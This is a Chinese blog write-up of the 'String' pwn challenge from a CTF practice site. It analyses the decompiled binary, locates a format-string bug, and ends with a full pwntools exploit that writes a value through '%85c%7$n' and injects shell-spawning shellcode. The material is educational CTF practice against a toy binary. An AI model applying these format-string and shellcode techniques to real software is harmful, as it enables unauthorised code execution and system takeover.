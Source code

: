 ```yaml
---
title: 「攻防世界」Pwn - String WriteUp
date: 2021-12-30
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## 写在开头的碎碎念

捏🐎咋这个Pwn这么难的啊，看WP也看不懂，~~即刻退出Pwn~~

说归说，至少先把这个攻防世界新手区给它干了

经过几天的~~并不系统的三天打鱼两天晒网的~~学习，现在只能说非常有自信。

**String**应该是攻防世界新手区里最有趣也最难的一题了，开整！

<!--truncate-->



## 开整

### 分析
![exeinfope](https://cdn.novanoir.moe/img/image-20211101153717286.png)

![checksec](https://cdn.novanoir.moe/img/image-20211101153833049.png)

总而言之先扫一遍， 64bit没有PIE

先看看main

![main](https://cdn.novanoir.moe/img/image-20211101153942250.png)

v4申请了一个**8字节长**的内存地址，保存的是`68, 85`两个数据，同时它把这两个数据的地址print了出来

跟进到`sub_400D72()`看看

![sub_400D72()](https://cdn.novanoir.moe/img/image-20211101154214749.png)

让我们输入名字，但是下面对s的长度做了检测所以没办法溢出。

继续看看其他函数，首先是`sub_400A7D()`

![sub_400A7D()](https://cdn.novanoir.moe/img/image-20211101154750528.png)

> 为了训练英语水平这里顺带打个翻译(?)
>
> > 这是一个有名却分外不同寻常的小酒馆。这里空气清新，大理石铺成的地板也很干净。几乎看不到吵闹的客人，家具也没有被在这个世界的其他酒馆寻常可见的打架斗殴所损坏。装饰极其华丽，看着很适合摆在宫殿里，但在这个城市这却是极其平常的。房间中央是天鹅绒覆盖的椅子和长凳，有很大的橡木桌子围绕。一个大告示固定在一根木条后的北面的墙上。在一个角落你发现了一个壁炉。有两个明显的出口：向东，向上。但奇怪的是，并没有人在那，那么你要向哪里走呢？
>
> 这个背景不能说毫无吸引力只能说翻译了是纯纯浪费时间
>
> ~~我是傻宝~~

所以要我们给出选择：`east`Or`up`

但是看下面的代码我们发现了：你只能选择`east`（选择了`up`之后你就会面临无尽之洞），继续接下来看`sub_400BB9()`

![sub_400BB9()](https://cdn.novanoir.moe/img/image-20211101173616709.png)

这里提到了`address`，很容易联想到前面我们的`v4`，估计是要在v2和format做文章，但是具体怎么操作还不清楚，继续看`sub_400CA6()`

![sub_400CA6()](https://cdn.novanoir.moe/img/image-20211101174119436.png)

这里的a1其实就是我们最开始的v4，所以我们需要让`*v4 = v4[1]`

注意下`((void (__fastcall *)(_QWORD))v1)(0LL);`这行，这里把v1转换成了可执行函数（void为返回值类型，__fastcall为协议），在这里我们就可以打shellcode了。

### Payload

接下来就是如何实现的问题了。

先把前面几个固定步骤的写了

![exp_01](https://cdn.novanoir.moe/img/image-20211102105044906.png)



这里就需要引入格式化字符串的漏洞，[传送门](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/)

我们需要找一下v4所在的参数位置，传入payload

```python
payload = 'AAAA'+'.%x'*10
```

![addr_info](https://cdn.novanoir.moe/img/image-20211102105300535.png)

可以看到我们的`41414141`位于栈内第八个位置，而我们刚才写入的v4_addr是位于前一个位置的，此时

就可以构造payload使得*v4=85了

```python
payload = '%85c%7$n'
```

![return_0](https://cdn.novanoir.moe/img/image-20211102105850378.png)

这时候我们已经满足`sub_400CA6()`中的条件了，那么只需要轻松写入一个shellcode，就可以拿到shell了。

完整payload:

```python
from pwn import *
context(log_level='debug')

sh = process('./1d3c852354df4609bf8e56fe8e9df316')

sh.recvuntil('secret[0] is ')
v4_addr = int(sh.recvuntil('\n')[:-1], 16)
print(v4_addr)

sh.recvuntil('be:')
sh.sendline(b'yuusya')
sh.sendlineafter('east or up?:\n', b'east')
sh.sendlineafter('leave(0)?:\n', b'1')

# *v4 = 85
sh.sendlineafter("address'\n", str(v4_addr))
payload = '%85c%7$n'
sh.sendline(payload)
sh.recvuntil('I hear it')
context(arch='amd64', os='linux')
sh.sendlineafter('SPELL', asm(shellcraft.sh()))
sh.interactive()
```

